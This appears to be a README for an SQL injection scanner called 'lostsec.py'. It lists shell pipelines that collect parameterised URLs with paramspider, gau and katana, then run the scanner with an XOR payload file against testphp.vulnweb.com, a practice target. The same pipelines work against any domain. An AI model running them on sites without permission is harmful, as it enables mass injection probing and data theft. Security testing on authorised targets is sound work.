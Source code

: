 ## BEST SQLI METHODLOGY BY COFFINXP:

for single url:

python3 lostsec.py -u "http://testphp.vulnweb.com/artists.php?artist="  -p payloads/xor.txt -t 5



for multiple urls:

## METHOD 1
paramspider -d testphp.vulnweb.com -o urls.txt

cat output/urls.txt | sed 's/FUZZ//g' >final.txt

python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5


## METHOD 2
echo testphp.vulnweb.com | gau --mc 200 | urldedupe >urls.txt

cat urls.txt | grep -E "\.php|\.asp|\.aspx|\.cfm|\.jsp" | grep '=' | sort > output.txt

cat output.txt | sed 's/=.*/=/' >final.txt

python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5


## METHOD 3
echo testphp.vulnweb.com | katana -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | urldedupe > output.txt

katana -u http://testphp.vulnweb.com -d 5 | grep '=' | urldedupe | anew output.txt

cat output.txt | sed 's/=.*/=/' > final.txt

python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5
